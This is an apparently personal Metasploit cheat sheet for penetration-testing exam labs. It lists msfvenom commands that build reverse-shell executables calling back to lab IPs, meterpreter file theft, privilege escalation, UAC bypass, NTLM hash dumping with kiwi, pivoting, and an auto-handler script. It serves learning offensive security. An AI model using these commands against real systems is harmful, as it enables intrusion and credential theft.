 # Metasploit Intro
- ``` msfconsole -q ``` quiet mode 
- Care about port issue (sometimes not all port avaiable to use shell)
## Rules:
- Allow in ALL machines
    ```
    multi/handler
    msfvenom (excluding meterpreter payload),
    pattern_create 
    pattern_offset 
    ```
- Allow in SINGLE machines
  ```
    meterpreter
    auxiliary
    post
    exploit
    scan
  ```

## Basics
- ``` workspace -a {new workspace name}``` add | delete ``` -d ```
- ``` db_nmap ``` Nmap inside Metasploit 
- ``` hosts ``` list of all discovered hosts up to this point
- ``` services -p {port}``` show all discovered services

## Auxiliary Module (輔助)
- ``` search type:auxiliary {module name} ``` search
- ``` use {module_id} ``` load certain module
- ``` info ``` show info
- ``` show options ``` 
- ``` unset RHOSTS ``` reset param
- ``` run ```
- ``` vulns```

## Exploit Module
- ``` search type:exploit {module name} ``` search
- ``` set payload payload/linux/x64/shell_reverse_tcp ```
- when success will have shell created -> move to background with ctrl z
- show sessions in background ``` sessions -l ``` 
- kill sessions ``` session -k {id} ``` | ``` session -K ``` kill all
- reset workspace wont kill sessions
- Change target(OS) ``` set target {0 or 1} ``` 0 = unix | 1 = windows

# Payloads
## Staged vs Non-Staged
- ``` / ``` = Staged & ``` _ ``` Stagless for name
- Staged : 2 step to bypass AV (send smaller packet first, then smuggle the payload thru another step)
- Stageless : 1 step (large & one take) 

## meterpreter payload
- multiple cmd packaged for staged one & not directly have a Remote shell ( can do other stuff)
- ```  sysinfo ``` 
- ``` getuid ``` get UID lolll
- ``` shell ``` generate shell 
- ``` channel -l ``` show all active channel | ``` channel -i {id} ``` use certain channel
- ``` download /etc/passwd ``` = scp
- ``` lcat ``` = meterpreter version cat
- ``` upload /usr/bin/unix-privesc-check /tmp/ ``` = scp
- ``` ls {dir}``` = ls loll
- ``` search -f {fileName} ```
- ``` getsystem ``` auto priv esc
- ``` ps ``` show all process
- ``` bg ``` background the session
  
## Executable Payloads (exe,ps1,bin)
### msfvenom
- https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom 
- ``` msfvenom -l payloads --platform {windows/php/etc...} --arch x64 ``` show all payloads with criteria
- ``` msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe ``` example of generating payload

### metasploit handler in kali
- some payload req msf to connect & ncat cant handle
- ``` msf6> use multi/handler ```


# Post Exploit for windows
- Module = Post
## Migrate to other process
  1. throw reverse shell (``` msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe ```) to victim 
  2. connect back kali by multi/handler e.g.(``` set payload windows/x64/meterpreter_reverse_https ```)
  3. try list all process ``` ps ```
  4. ``` migrate {pid} ``` sometimes not successful then try his parent(PPID) with same user 
## UAC
- ```msf6> search UAC ``` 
  1. once get the shell ``` meterpreter > shell ```
  2. windows ``` powershell -ep bypass ```
  3. check UAC level: ``` Import-Module NtObjectManager ``` then ``` Get-NtTokenIntegrityLevel ```
  4. useful UAC bypass : ``` use exploit/windows/local/bypassuac_sdclt ```
  5. bind to the session that we previous made ( can recheck with session list cmd ) then ``` set session {sid} ```

### Load mikikaze
  1. Req admin OR UAC High priv
  2. ``` load kiwi ``` load & ``` help ``` see all cmd 
  3. ``` creds_msv ``` get NTLM/SHA-1 hashs of users

### Use other post script for the session
 - e.g. enum hosts file
 - ``` use post/windows/gather/enum_hostfile ``` then bind to session we create before ``` set session {sid}```

## Pivoting 
### Manual route
- Check another ip in other subnet e.g. 172.16.155.18 -> subnet=172.16.155.0 (probably, need see /??)
- port forwardingset in routing table ``` route add 172.16.{subnet}.0/24 {session_id} ```
- print route table assigned ``` route print ```
- test with port scan module e.g. ``` use auxiliary/scanner/portscan/tcp ``` to see if routing success
- terminate all routes ``` route flush ``` | remove 1 only ``` route remove {ip}/24 {session_id} ```
  
### Auto Route (Part 1)
- ``` use multi/manage/autoroute ``` and then bind to the shell session we made before

### Proxy (Part 2)
- ``` use auxiliary/server/socks_proxy ``` & ``` set SRVHOST 127.0.0.1 ``` (only allow host to call seems more safe) & ``` set SRVPORT 9999 ```
-  edit ```/etc/proxychains4.conf``` to the one we set e.g. ``` socks5 {SRVHOST} {SRVPORT}``` (entry point of the proxy)
-  

# Auto fucking metasploit
- write all command of metasploit and save in a script with ruby : autoFuck.rc (maybe)
  e.g. 
    ```
      use exploit/multi/handler
      set PAYLOAD windows/meterpreter_reverse_https
      set LHOST 192.168.45.154
      set LPORT 6969
      set AutoRunScript post/windows/manage/migrate
      set ExitOnSession false
      run -z -j
    ```
- ``` sudo msfconsole -r {script name}.rc ```